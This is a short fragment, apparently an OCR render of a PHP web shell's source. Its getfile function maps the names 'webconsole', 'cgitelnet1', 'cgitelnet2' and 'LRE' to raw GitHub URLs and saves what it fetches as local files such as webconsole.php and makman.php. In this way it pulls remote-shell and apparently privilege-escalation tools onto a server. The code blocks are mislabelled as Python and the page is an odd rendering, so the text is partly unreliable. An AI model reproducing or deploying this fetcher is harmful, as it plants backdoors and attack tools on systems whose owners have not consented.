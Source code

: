 # getfile($name)
## $name === "webconsole"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/webcon", "webconsole.php");
```
&nbsp;
&nbsp;
## $name === "cgitelnet1"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/cgi1", "idx_cgi/cgitelnet1.idx");
```
&nbsp;
&nbsp;
## $name === "cgitelnet2"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/cgi2", "idx_cgi/cgitelnet2.idx");
```
&nbsp;
&nbsp;
## $name === "LRE"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/makman", "makman.php");
```
